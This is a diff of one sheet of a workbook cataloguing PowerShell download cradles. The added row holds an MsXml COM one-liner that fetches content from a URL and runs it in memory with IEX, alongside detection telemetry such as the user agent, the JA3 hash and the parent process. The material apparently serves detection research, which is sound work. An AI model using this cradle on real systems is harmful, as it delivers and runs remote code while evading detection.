

Before and after one commit to mgreen27/mgreen27.github.io, an Excel workbook: other/DownloadCradle/DownloadCradle.xlsx, sheet MsXml COM, drawn as a sheet; only a part is shown; values as stored, in another font and other column widths than the file's, no borders; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/other/DownloadCradle/DownloadCradle.xlsx (sheet MsXml COM)
+++ b/other/DownloadCradle/DownloadCradle.xlsx (sheet MsXml COM)
+column B, rows 1-6: Windows 10 Office 2016 Powershell 5.1.16299.248 | PowerShell MsXml COM Object interactions ↵ $comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET',$Url,$False);$comMsXml.Send();IEX $comMsXml.ResponseText ↵ Powershell version: 2+ ↵ Proxy: proxy aware ↵ PSComMsxml: memory only | GET: Mozilla/* (compatible; Win32; WinHttp.WinHttpRequest.*) | JA3_footprint: 771,49196-49195-49200-49199-159-158-49188-49187-49192-49191-49162-49161-49172-49171-157-156-61-60-53-47-10,0-5-10-11-13-35-23-65281,29-23-24,0 ↵ JA3_hash: ce5f3254611a8c095a3d821d44539877 | Powershell.exe | Child: Powershell.exe
```
Also changed, not shown: 2 edited cells elsewhere in this sheet, sheet Certutil, sheet WebClient, sheet WinHttp COM, sheet Excel COM, sheet regsvr32, sheet Word COM, 12 more sheets, 1 other file.
